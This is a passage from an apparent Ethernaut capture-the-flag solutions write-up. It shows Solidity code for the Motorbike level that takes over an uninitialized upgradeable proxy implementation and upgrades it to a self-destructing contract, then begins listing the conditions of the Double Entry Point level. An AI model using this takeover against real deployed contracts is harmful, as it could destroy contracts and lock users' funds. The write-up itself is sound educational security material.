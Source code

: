and we upgrade and call it at the `setUp()` stage

```solidity
// create your evil engine
SelfDestructableEngine evilEngine = new SelfDestructableEngine();

// initialize to become the owner
// upgrade to the evil engine, call the selfdestruct() attack
engine.initialize();
engine.upgradeToAndCall(address(evilEngine), abi.encodeWithSignature("attack()"));
```

Verifying

```solidity
function testExploit() public {
  // setUp() and testExploit() happen at different transactions,
  // we need to run our exploit at setUp() to be able to verify.
  utils.submitLevelInstance(challengeAddress);
}
```

### References

* https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#initializers
* https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/d446a47a4f9c9bacefd0f9ac7d7fc8cfa0888ed5/packages/core/contracts/Initializable.sol#L42
 https://eips.ethereum.org/EIPS/eip-1967

## 26 Double Entry Point

To beat this level, we need to comply with

```solidity
// setting a forta bot
address usersDetectionBot = address(forta.usersDetectionBots(_player));
if(usersDetectionBot == address(0)) return false;

// making a "sweep" fail
(bool ok, bytes memory data) = this.__trySweep(cryptoVault, instance);
require(!ok, "Sweep succeded");

// making a condition true (see 4 lines below)
bool swept = abi.decode(data, (bool));
return swept;

// the condition to be true
return(false, abi.encode(instance.balanceOf(instance.cryptoVault()) > 0));
```

Lot to unpack:

* Set a forta bot.
* Make a "sweep" fail.
* Make sure the balance of this particular token in the vault is greater than 0.
